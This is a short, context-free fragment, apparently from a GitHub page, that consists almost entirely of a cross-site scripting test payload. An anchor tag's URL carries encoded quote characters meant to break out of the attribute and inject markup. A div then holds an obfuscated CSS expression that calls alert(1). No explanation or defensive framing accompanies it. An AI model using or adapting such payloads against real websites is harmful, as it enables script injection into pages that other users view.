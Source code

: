 <a href='https://raw.githubusercontent.com/smartaptlimited/new/main/bbb%22class%3D%22gfm%22a%3D%27.jpg'>
' data-design="1" data-issue="1" data-reference-type="design" data-original='
  <div style=xss:expressio&#x5c;6e(alert(1))>
'
</a>
